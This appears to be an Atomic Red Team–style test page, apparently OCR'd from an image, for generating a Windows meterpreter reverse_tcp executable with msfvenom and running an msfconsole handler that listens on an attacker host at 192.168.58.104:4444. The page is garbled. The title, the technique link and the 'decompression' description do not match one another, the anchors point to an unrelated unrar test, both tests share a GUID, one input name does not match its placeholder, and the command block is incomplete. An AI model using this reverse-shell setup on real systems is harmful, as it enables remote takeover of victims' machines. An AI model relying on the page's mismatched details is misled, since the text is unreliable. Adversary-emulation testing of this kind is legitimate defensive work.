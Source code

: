 # T1000 - Kali Operation Guideline
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/002)
<blockquote>decompression.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create an exploit using msfvenom](#Atomic-Test-#1---decompression-via-unrar.exe)
- [Atomic Test #2 - Set & Run a handler using msfconsole](#Atomic-Test-#1---decompression-via-unrar.exe)


<br/>

## Atomic Test #1 - Create an exploit using msfvenom
Create an exploit using msfvenom

**Supported Platforms:** sh


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | payload | String | windows/meterpreter/reverse_tcp |
| LHOST | LHOST | String | 192.168.58.104 |
| LPORT | LPORT | String | 4444 |
| format | format | String | exe |
| output_path | output_path | String | /var/www/html/rs_exploit.exe |


#### Attack Commands: Run with `sh`! 

<br/>

## Atomic Test #2 - Set & Run a handler using msfconsole
Guideline of set & run a handler using msfconsole

**Supported Platforms:** sh


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hander | handler | String | exploit/multi/handler |
| payload | payload | String | windows/meterpreter/reverse_tcp |
| LHOST | LHOST | String | 192.168.58.104 |
| LPORT | LPORT | String | 4444 |


#### Attack Commands: Run with `sh`! 


```sh
cat << EOF
run the cmdlets below in kali(#{LHOST}):
msfconsole
msfconsole>use #{handler}
msfconsole>set PAYLOAD #{payload}
msfconsole>set LHOST #{LHOST}
msfconsole>set LPORT #{LPORT}
msfconsole>exploit
```


#### Dependencies:  Run with `sh`!

<br/>
